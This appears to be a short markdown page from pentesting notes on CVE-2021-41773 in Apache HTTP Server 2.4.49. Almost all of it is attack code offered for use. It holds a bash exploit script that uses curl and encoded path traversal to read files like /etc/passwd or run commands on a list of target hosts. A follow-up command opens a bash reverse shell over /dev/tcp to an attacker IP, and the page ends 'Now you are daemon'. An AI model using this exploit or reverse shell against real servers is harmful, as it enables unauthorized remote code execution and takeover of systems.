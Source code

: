 ```yaml
---
title: CVE-2021-41773
---
```

## Apache remote RCE

- Use the following script:

```bash
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done

# PoC.sh targets.txt /etc/passwd
# PoC.sh targets.txt /bin/sh whoami
```

- With the following commands (also uploaded in [Reverse shells 👾](reverse_shells.md)):

```shell
script targets.txt /bin/bash "/bin/bash -i 5<> /dev/tcp/10.11.74.136/666 0<&5 1>&5 2>&5"
```

- Now you are **daemon**

